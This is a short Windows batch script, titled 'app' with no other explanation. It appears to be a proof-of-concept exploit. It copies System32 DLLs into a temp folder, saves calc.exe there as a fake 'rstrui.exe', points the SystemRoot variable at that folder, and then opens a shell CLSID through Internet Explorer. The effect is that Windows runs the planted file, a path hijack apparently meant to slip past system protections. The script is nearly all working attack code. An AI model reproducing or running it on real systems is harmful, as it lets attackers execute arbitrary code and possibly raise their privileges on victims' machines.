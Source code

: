 # app
start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

mkdir %temp%\System32

FOR /R C:\Windows\System32\ %F IN (*.dll) DO COPY "%F" %temp%\System32\ /Y >NUL

set a=C:\Windows\System32\calc.exe

copy %a% %temp%\System32\rstrui.exe /Y > NUL

set SystemRoot=%temp%

start iexplore shell:::{3f6bc534-dfa1-4ab4-ae54-ef25a74e0107}

